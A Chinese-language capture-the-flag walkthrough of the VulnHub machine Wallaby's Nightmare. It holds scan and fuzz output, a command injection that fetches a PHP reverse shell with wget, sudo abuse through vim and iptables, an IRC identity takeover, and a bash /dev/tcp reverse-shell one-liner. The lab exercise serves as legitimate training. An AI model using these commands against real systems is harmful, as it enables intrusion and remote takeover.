# Wallaby's Nightmare

下载地址：https://download.vulnhub.com/wallabys/wallabysnightmare102.rar

## 实战演练

发现靶场IP：`192.168.32.157`



扫描对外IP端口

```
┌──(root💀kali)-[~/Desktop]
└─# nmap  -sT -sV  -p1-65535 192.168.32.157                                                                                                                                                                                            
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-20 07:38 EDT
Nmap scan report for 192.168.32.157
Host is up (0.00074s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
6667/tcp filtered irc
MAC Address: 00:0C:29:03:CE:57 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.93 seconds
```

浏览器访问80端口，叫你输入一个名字开始CTF比赛。





> 这是什么鬼?一个叫test的家伙想侵入我的服务器?失败者一定不知道我是伟大的小袋鼠!
>
> 让我们先观察一下，也许我可以从他的行为中了解他。

尝试本地包含漏洞



> 伙计，你的做法很可疑啊。你一定认为小袋鼠的密码像猴子一样!不过我最好还是去保护这个SQLi…
>
> (袋鼠发现你在尝试LFI，你必须更狡猾!难度增加)

刷新浏览器发现失败，后面使用nmap再次扫描端口，发现http端口变成了60080



访问60080端口



> 天哪，这个家伙想要我…很高兴我搬到了另一个端口，这样我可以更安全地工作!!
>
> 我们都知道，通过隐藏实现安全是可行的方法……

继续尝试本地包含文件漏洞



直接用字典fuzz

```
┌──(root💀kali)-[~/Desktop]
└─# dirb http://192.168.32.157:60080/index.php?page= /usr/share/wordlists/dirb/big.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Jun 20 07:56:15 2022
URL_BASE: http://192.168.32.157:60080/index.php?page=
WORDLIST_FILES: /usr/share/wordlists/dirb/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.32.157:60080/index.php?page= ----
+ http://192.168.32.157:60080/index.php?page=blacklist (CODE:200|SIZE:991)                                                                                                                                                                  
+ http://192.168.32.157:60080/index.php?page=cgi-bin/ (CODE:200|SIZE:897)                                                                                                                                                                   
+ http://192.168.32.157:60080/index.php?page=contact (CODE:200|SIZE:895)                                                                                                                                                                    
+ http://192.168.32.157:60080/index.php?page=home (CODE:200|SIZE:1144)                                                                                                                                                                      
+ http://192.168.32.157:60080/index.php?page=index (CODE:200|SIZE:1359)                                                                                                                                                                     
+ http://192.168.32.157:60080/index.php?page=mailer (CODE:200|SIZE:1082)                                                                                                                                                                    
                                                                                                                                                                                                                                            
-----------------
END_TIME: Mon Jun 20 07:56:31 2022
DOWNLOADED: 20458 - FOUND: 6
```

访问`http://192.168.32.157:60080/index.php?page=mailer`，查看页面源代码，找到一个提示


mail参数可以执行Linux命令



```
http://192.168.32.157:60080/index.php?page=mailer&mail=wget%20%20http://192.168.32.130:8000/php-reverse-shell.php
```



查看sudo列表

```
$ sudo -l                                                                                                                                                                                                                                    
Matching Defaults entries for www-data on ubuntu:                                                                                                                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                        
                                                                                                                                                                                                                                             
User www-data may run the following commands on ubuntu:                                                                                                                                                                                      
    (waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf                                                                                                                                                             
    (ALL) NOPASSWD: /sbin/iptables  
```

查看防火墙规则，发现拦截ircd端口

```
$ sudo iptables -L                                                                                                                                                                                                                           
Chain INPUT (policy ACCEPT)                                                                                                                                                                                                                  
target     prot opt source               destination                                                                                                                                                                                         
ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd                                                                                                                                                                   
DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd                                                                                                                                                                   
                                                                                                                                                                                                                                             
Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
```

清除防火墙规则


连接到IRC聊天室

```
irssi -c 192.168.32.157 
```



查看聊天室



加入`wallabyschat`聊天室

```
/j wallabyschat
```

在频道`wallabyschat`内，我看到了另外两个用户



回到**IRSSI**的主窗口，我使用以下命令对用户进行了一些侦察：

```
/whois waldo
/whois wallabysbot
```



wallabysbot基于Sopel。在服务器上寻找这个机器人框架：

```
import sopel.module, subprocess, os
from sopel.module import example

@sopel.module.commands('run')
@example('.run ls')
def run(bot, trigger):
     if trigger.owner:
          os.system('%s' % trigger.group(2))
          runas1 = subprocess.Popen('%s' % trigger.group(2), stdout=subprocess.PIPE).communicate()[0]
          runas = str(runas1)
          bot.say(' '.join(runas.split('\\n')))
     else:
          bot.say('Hold on, you aren\'t Waldo?')
```



尝试运行命令，会提示你是否是Waldo用户



我发现Waldo使用Tmux来满足他的IRC需求。他的设置有问题。如果 Tmux 宕机，他的 IRC 连接也会宕机。

> _tmux_是指通过一个终端登录远程主机并运行后，在其中可以开启多个控制台的终端复用软件

```
$ cat irssi.sh
#!/bin/bash
tmux new-session -d -s irssi
tmux send-keys -t irssi 'n' Enter
tmux send-keys -t irssi 'irssi' Enter
```

找到tumx的进程


使用vim对进程进行关闭

```
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
```

使用Vim发出 kill 命令

```
[ESC]:!kill 732 [ENTER]
```



通过改变我的昵称来接管Waldos的身份：

```
/nick waldo
```

反弹shell

```
.run bash -c 'bash -i >& /dev/tcp/192.168.32.130/17777 0>&1'
```



最后提权成功


